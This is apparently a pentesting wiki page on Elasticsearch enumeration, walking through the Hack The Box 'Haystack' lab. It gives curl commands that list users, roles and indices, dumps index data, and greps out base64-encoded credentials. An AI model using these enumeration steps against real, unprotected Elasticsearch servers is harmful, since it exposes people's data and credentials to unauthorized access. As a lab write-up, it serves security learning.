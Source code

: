 ```yaml
---
description: Elastic search | API | JSON | Database | Relational DBMS
---
```


# Elastic Search

Elasticsearch is an **open-source, distributed search and analytics engine** designed to handle large volumes of structured and unstructured data.

test

* RESTful interacts via HTTP requests (GET, POST).
* Scalable Data Storage: Distributes data across nodes for horizontal scaling
* Vector Database: Handles AI/ML embeddings for semantic search

It allows users to perform fast full-text searches, real-time analytics, and operations like filtering, aggregation, and visualization. Elasticsearch uses a RESTful API, stores data in a scalable and fault-tolerant way, and supports advanced features like machine learning, vector search, and time-series analysis. It's often used for log analysis, e-commerce search, and business intelligence.

### <mark style="color:yellow;">Example</mark>

You can find this vulnerability in [https://www.hackthebox.com/machines/haystack](https://www.hackthebox.com/machines/haystack).

```bash
#List all roles on the system:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/role"

#List all users on the system:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user"

#Get more information about the rights of an user:
curl -X GET "ELASTICSEARCH-SERVER:9200/_security/user/<USERNAME>"
```

Check [https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch) for more endpoints.

#### Listing indexes (like tables):

```bash
$ curl http://10.10.10.115:9200/_cat/indices?v
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

From the image we got a clue to search for "clave". We can use \_search to do so, which will return 10 entries by default.

```bash
curl -s http://10.10.10.115:9200/quotes/_search | jq .
```

Using `_count` we can check how many entries there are which are 253 entries.

```bash
$ curl -s http://10.10.10.115:9200/quotes/_count | jq .
{
  "count": 253,
  "_shards": {
    "total": 5,
    "successful": 5,
    "skipped": 0,
    "failed": 0
  }
}
```

With `_search?size=253` it returns all entries and \_search?size=1 would return the first, if we only want the hits field we can use `.hits`.

```bash
$ curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq .hits
{
  "total": 253,
  "max_score": 1.0,
  "hits": [
    {
      "_index": "quotes",
      "_type": "quote",
      "_id": "14",
      "_score": 1.0,
      "_source": {
        "quote": "En América se desarrollaron importantes civilizaciones, como Caral (la civilización más antigua de América, la cual se desarrolló en la zona central de Perú), los anasazi, los indios pueblo, quimbaya, nazca, chimú, chavín, paracas, moche, huari, lima, zapoteca, mixteca, totonaca, tolteca, olmeca y chibcha, y las avanzadas civilizaciones correspondientes a los imperios de Teotihuacan, Tiahuanaco, maya, azteca e inca, entre muchos otros."
      }
    }
  ]
}
```

And using we can extract the quotes

```bash
curl -s 'http://10.10.10.115:9200/quotes/_search?size=253' | jq '.hits.hits | .[] |
._source.quote'
```

#### Or using curl

```bash
$ curl -s -X GET "http://10.10.10.115:9200/bank/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq . | head -20
{
  "took": 98,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "skipped": 0,
    "failed": 0
  },
  "hits": {
    "total": 1000,
    "max_score": 1.0,
    "hits": [
      {
        "_index": "bank",
        "_type": "account",
        "_id": "25",
        "_score": 1.0,
        "_source": {
          "account_number": 25,
```

Now getting data from quotes and `grep clave` we get 2 quotes back.

```bash
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'
{
    "query": {
        "match_all": {}
    }
}
' | jq -c '.hits.hits[]' | grep clave

{"_index":"quotes","_type":"quote","_id":"111","_score":1.0,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
{"_index":"quotes","_type":"quote","_id":"45","_score":1.0,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
```
